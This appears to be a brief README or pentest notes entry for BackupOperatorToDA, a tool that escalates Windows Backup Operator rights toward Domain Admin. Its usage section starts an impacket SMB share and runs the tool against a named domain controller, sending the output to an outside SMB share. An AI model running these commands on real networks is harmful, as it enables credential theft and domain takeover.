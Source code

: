 # Name
BackupOperatorToDA

## Usage
```
impacket-smbserver share . -smb2support
.\BackupOperatorToDA.exe -t \\ZPH-SVRCDC01.internal.zsm.local -o \\10.10.14.15\share\
```

## Source
https://github.com/mpgn/BackupOperatorToDA
